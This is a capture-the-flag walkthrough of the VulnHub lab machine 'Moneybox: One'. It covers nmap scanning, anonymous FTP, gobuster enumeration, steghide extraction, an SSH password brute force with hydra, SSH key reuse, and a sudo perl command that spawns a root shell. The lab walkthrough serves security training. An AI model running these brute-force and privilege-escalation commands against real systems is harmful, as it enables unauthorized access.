Moneybox: One   (Source: https://vulnhub.com/entry/moneybox-1,653/)

Let's start off by learning the target machine's IP address.

    nmap -sn 192.168.240.0/24

        -sn         -->     Skips port discovery

        ..0/24      -->     Scans the entire subnet



    192.168.240.1   -->     Virtual Router

    192.168.240.2   -->     DHCP Server
    
    192.168.240.3   -->     Attacking machine (Kali)

    192.168.240.20  -->     Target VM (MoneyBox)

Great! So now that we know that the target machine's IP address is 192.168.240.20, we can begin to learn more about it.

In order to determine open ports and their serivces, I will run this command.

    nmap -p- -sVC -T 4 192.168.240.20 -oN results.txt

        -p-     --> Scans all 65535 ports

        -sVC    --> Enables service version detection and runs the default nmap scripts

        -T 4    --> Sets the timing option to 4 (default: 3)

        -oN     --> Saves the output to a file called "results.txt"



We can see that ports 21, 22 & 80 are open for connections.

    21/tcp  --> File Transfer Protocol (FTP) --> Used for transferring files

    22/tcp  --> Secure Shell (SSH)           --> Used for secured remote shell access to a system

    80/tcp  --> Hypertext Transfer Protocol  --> Primary protocol used for sending data over the internet (Unencrypted)

First I took a look at FTP. Since anonymous login was allowed, I had no trouble connecting anonymously. I also downloaded a file called 'trytofind.jpg'. The name suggests that this JPG file will be relevant in the future.



Next I'm going to check out the website and go on with directory enumeration.



Just to be sure I didn't miss anything, I also checked out the sites HTML.

We can try to find something through directory enumeration. I will use the following command.

    gobuster dir -u http://192.168.240.20 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt



Since 'server-status' returns 403 FORBIDDEN, we don't need to pay attention to it. I checked out the 'blogs' directory and found this in the sites HTML.



It points us to a directory called 'S3cr3t-T3xt'.



After inspecting the HTML in the S3cr3t-T3xt directory, we get the key: 3xtr4ctd4t4.

Remember that file 'trytofind.jpg' that we downloaded from the FTP server? We can use this key to extract the data from that file. (This is something that I was completely unaware of was possible, so yeah live and learn :D)

I will use the following command:

    steghide extract -sf trytofind.jpg -p 3xtr4ctd4t4

        extract     --> Extract information from file

        -sf         --> Which file to use?

        -p          --> What is the password?

After extraction..



we find a username called 'renu'. The note also says that the password is weak. Maybe that means that we can use the rockyou.txt file to find out what the password is.

I will use the following command:

    hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.240.20:22



Now that we know that the credentials are renu:987654321, we can log in to this account using ssh.



I also almost instantly found the first user flag. I also took a look at the .bash_history file but I didn't find anything interesting in there. I also ran 'sudo -l' and learned that this user account does not have any sudo privileges.

I also found another account called 'lily' in the /home directory and when I compared the SSH keys of users 'renu' and 'lily', I found them to be identical. 



This can be used to log into the other account without specifiying a password.

    ssh lily@localhost



From the picture above, we can see that the PERL interpreter runs as root. We can use this to spawn a root shell on the system.

    sudo perl -e 'exec "/bin/bash"'



Thank you for reading!